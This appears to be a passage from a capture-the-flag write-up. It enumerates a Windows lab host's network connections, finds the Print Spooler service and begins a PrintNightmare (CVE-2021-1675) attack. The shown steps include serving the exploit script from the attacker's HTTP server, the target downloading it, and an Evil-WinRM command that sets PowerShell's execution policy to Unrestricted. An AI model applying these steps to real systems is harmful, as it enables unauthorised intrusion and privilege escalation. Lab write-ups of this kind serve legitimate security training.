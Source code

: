 TCP        10.10.11.106          5985          10.10.14.7            47134           Established       4               System
 
Enumerating IPv6 connections
 
Protocol   Local Address                               Local Port    Remote Address                              Remote Port     State             Process ID      Process Name
 
TCP        [::]                                        80            [::]                                        0               Listening         4               System
TCP        [::]                                        135           [::]                                        0               Listening         712             svchost
TCP        [::]                                        445           [::]                                        0               Listening         4               System
TCP        [::]                                        5985          [::]                                        0               Listening         4               System
TCP        [::]                                        47001         [::]                                        0               Listening         4               System
TCP        [::]                                        49408         [::]                                        0               Listening         448             wininit
TCP        [::]                                        49409         [::]                                        0               Listening         868             svchost
TCP        [::]                                        49410         [::]                                        0               Listening         1188            spoolsv
TCP        [::]                                        49411         [::]                                        0               Listening         816             svchost
TCP        [::]                                        49412         [::]                                        0               Listening         568             services
TCP        [::]                                        49413         [::]                                        0               Listening         576             lsass


We find `spoolsv` which is Print Spooler service 

So time to exploit , i start with cloning https://github.com/calebstewart/CVE-2021-1675

Then i move to to the remote host to apply out attack 

python -m SimpleHTTPServer 8001                                                                                                                                                                                                    3 ⚙
Serving HTTP on 0.0.0.0 port 8001 ...
10.10.11.106 - - [10/Dec/2021 19:20:00] "GET /CVE-2021-1675.ps1 HTTP/1.1" 200 -


Then 
Import-Module .\cve.ps1 
i got error 
File C:\Users\tony\Documents\cve.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.

So first we need to be able to load the ps1 script `https://stackoverflow.com/questions/41117421/ps1-cannot-be-loaded-because-running-scripts-is-disabled-on-this-system`

*Evil-WinRM* PS C:\Users\tony\Documents> Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force;
*Evil-WinRM* PS C:\Users\tony\Documents> Get-ExecutionPolicy #check if the policy is unrestricted 
Unrestricted
